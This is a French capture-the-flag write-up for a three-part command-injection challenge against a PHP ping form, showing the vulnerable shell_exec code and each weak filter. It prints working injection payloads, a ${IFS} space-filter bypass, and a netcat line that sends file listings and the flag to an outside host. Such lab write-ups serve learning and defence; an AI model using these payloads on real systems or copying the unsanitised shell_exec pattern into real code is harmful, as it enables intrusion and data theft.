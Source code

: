 # DéDéOS

Ce challenge est découpé en 3 parties. Nous accédons à chaque fois à une page similaire où il faudra faire une injection de commandes shell. À chaque étape de nouveaux tests sont effectués pour empêcher les injections.



## DéDéOS 1 - 10 pts

> Serveur de déni de service en masse pour les 1337 h4xorz. Essayer de prouver au propriétaire que c'est de la merde. Lire le fichier  contenant le flag.
>
> http://dedeos-1.interiut.ctf/

La page présente un formulaire où entrer une adresse IP. Nous pouvons supposer que le code PHP (des headers PHP sont envoyés par le serveur) fait un ping de cette IP pour afficher `Cible atteinte` ou `Cible non atteignable` sur la page.

On essaie d'injecter `;ls;` par exemple et nous obtenons carrément la sortie de la commande :

Nous pouvons faire `;ls -lRa;` pour localiser le flag puis `;cat secret/the/flag/is/here/.flag;` pour l'afficher.

On peut également afficher le code PHP :

```php
if(isset($_POST['submit']) && isset($_POST['ip']) && !empty($_POST['ip'])){
    $ip = $_POST['ip'];
    echo "<p>Résultat de l'attaque :</p>";
    echo "<pre>".shell_exec("ping -c 1 $ip > /dev/null && echo 'Cible atteinte' || echo 'Cible non atteignable'")."</pre>";
}
```

(Ce code sera le même au fil des étapes mais des vérifications seront effectuées sur notre entrée.)

## DéDéOS 2 - 20 pts 

> ​    Le propriétaire s'est rendu compte de votre talent, il vous met au défi de nouveau
>
> http://dedeos-2.interiut.ctf/

La page semble identique à la précédente. `;ls;` renvoie une réponse mais `;ls -lRa;` ne passe pas : `Attaque malicieuse détectée`. Il semblerait que les espaces soient interdits. Il suffit alors de les remplacer par `${IFS}` ! En effet, `;ls${IFS}-laR;` nous énumère les fichiers et `;cat${IFS}flag/it/is/soon/here/flag.md;` affiche le flag.

Le code qui nous testait :

```php
if(isset($_POST['submit']) && isset($_POST['ip']) && !empty($_POST['ip'])){
    $ip = $_POST['ip'];
    if(strstr($ip, " ")){
        die("<pre>Attaque malicieuse détectée.</pre>");
    }
    echo "<p>Résultat de l'attaque :</p>";
    echo "<pre>".shell_exec("ping -c 1 $ip > /dev/null && echo 'Cible atteinte' || echo 'Cible non atteignable'")."</pre>";
}
```

## DéDéOS 3 - 50 pts

Cette fois-ci `;ls;` ne passe pas car les `;` sont interdits. Compte tenu de la structure de la commande, je pense qu'il n'y a que 2 solutions : une injections en blind en jouant avec le code de retour (très long et on est pas dans du misc) ou alors exfiltrer des données avec netcat par exemple.

Je lance netcat en écoute sur le port 2020 de mon VPS puis j'injecte `||ls${IFS}-laR|nc${IFS}ribt.fr${IFS}2020`. Je récupère bien la liste des fichiers et `||cat${IFS}.secret/2/1/3/flag.txt|nc${IFS}ribt.fr${IFS}2020` me permet de récupérer le flag.

Le code :

```php
if(isset($_POST['submit']) && isset($_POST['ip']) && !empty($_POST['ip'])){
    $ip = $_POST['ip'];
    if(strstr($ip, " ") || strstr($ip, ";")){
        die("<pre>Attaque malicieuse détectée.</pre>");
    }
    echo "<p>Résultat de l'attaque :</p>";
    echo "<pre>".shell_exec("ping -c 1 $ip > /dev/null && echo 'Cible atteinte' || echo 'Cible non atteignable'")."</pre>";
}
```

Légèrement déçu de ne pas aller plus loin avec des interdictions de lettres par exemple...